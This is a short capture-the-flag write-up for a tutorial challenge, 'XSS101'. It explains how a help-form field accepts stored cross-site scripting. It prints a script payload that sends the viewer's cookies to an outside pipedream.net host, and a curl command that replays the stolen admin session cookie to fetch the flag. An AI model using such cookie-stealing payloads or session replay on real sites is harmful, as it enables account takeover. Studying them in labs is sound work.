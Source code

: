 # XSS101

## Description
```
Now it's time to learn another web vulnerability and attack.

Find the server at: http://xss101.sstf.site.

This is a tutorial challenge.
If you are not sure how to solve this,
please refer to the tutorial guide(Eng | Kor).
```

## Solution

We can see the login form and the help link when we submit any credentials.

![](images/login.png)

We are directed to `help.php` when we click `Need help?`.

![](images/help.png)

The `HINT` gives the source of `help.php`, but it seems it's not about SQLi as it is using prepared statements.

```php
insert_data_with_prepared_statements($db, $_POST['email'], $_POST['desc']);
```

We just submitted any inquery and got the message like below. So, it seems XSS as the title suggests.

![](images/admin.png)

We just submit the `script` tags like below into `Description`.

```html
<script>location.href="https://en9e8v7j6r48.x.pipedream.net/?cookie="+document.cookie</script>
```

We were able to get admin's `PHPSESSID` cookie. So, where to use this cookie? With the little bit of guessing, I was able to get the flag from `admin.php` using the cookie.

```sh
$ curl -s --cookie "PHPSESSID=32c1ba061ee4c31773e442d3035c9803" http://xss101.sstf.site/admin.php | grep SCTF
                                <table class="form-rounded"><tr><td id="txtnode">SCTF{bl1nd_CR055_s1t3_scr1ptin9_att4ck}</td></tr></table>
```

## Flag
`SCTF{bl1nd_CR055_s1t3_scr1ptin9_att4ck}`